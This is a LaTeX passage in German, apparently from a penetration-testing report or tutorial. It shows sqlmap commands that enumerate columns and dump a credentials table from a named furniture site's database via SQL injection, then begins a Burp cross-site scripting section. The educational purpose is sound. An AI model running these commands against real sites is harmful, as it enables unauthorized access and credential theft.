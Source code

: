 Bisher wurde festgestellt, dass die Website \texttt{acfurniture.com} hat zwei Datenbanken, acfurniture und information\_schema. Die Datenbank \texttt{acfurniture} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}

\begin{LaTeXCode}[caption={Aufdeckung von Spalten},captionpos=b, label=LaTeXCode:advs1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --columns
\end{LaTeXCode}

\begin{figure}[h]
	\centering
	\texttt{[image: aufdeckungvonspalten.png]}
	\caption{Ergebnis: Spalten}
\end{figure}

\newpage

Die \texttt{settings} Tabelle besteht aus 6 Spalten, und dies ist eigentlich ein Konto mit Anmeldeinformationen. Jetzt wird versucht diese Informationen auszugeben.\\

\textbf{D. Informationen aufdecken}

Man kann alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{LaTeXCode}[caption={Aufdeckung von alle Daten in der Tabelle},captionpos=b, label=LaTeXCode:alledatenausgeben1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --dump
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{figure}[h]
	\centering
	\texttt{[image: aufdeckungalledatenindertabelle.png]}
	\caption{Ergebnis: Alle Daten in der Tabelle}
\end{figure}

\subsection{Testen von Cross-Site-Scripting mit Burp}

Das folgende Cross-Site-Scripting-Beispiel stammt aus dem Tutorial von Web-Sicherheitsseite Portswigger\cite{portswigger12}.

